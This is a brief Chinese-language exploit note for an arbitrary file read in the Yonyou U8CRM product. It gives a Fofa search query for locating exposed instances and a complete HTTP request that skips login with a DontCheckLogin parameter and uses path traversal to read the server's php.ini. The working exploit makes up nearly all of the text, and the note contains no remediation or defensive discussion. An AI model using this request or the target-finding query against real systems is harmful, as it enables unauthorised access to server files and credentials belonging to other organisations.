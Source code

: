 # K8-9用友U8CRM任意文件读取

<u></u>





### 漏洞描述：用友U8CRM任意文件读取



### Fofa语句：app=“用友U8CRM”



### 漏洞复现：

```
GET /pub/downloadfile.php?DontCheckLogin=1&url=/datacache/../../../apache/php.ini HTTP/1.1
Host: 127.0.0.1:8088
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/128.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh,zh-CN;q=0.9,en;q=0.8
Connection: close
Content-Length: 4
```

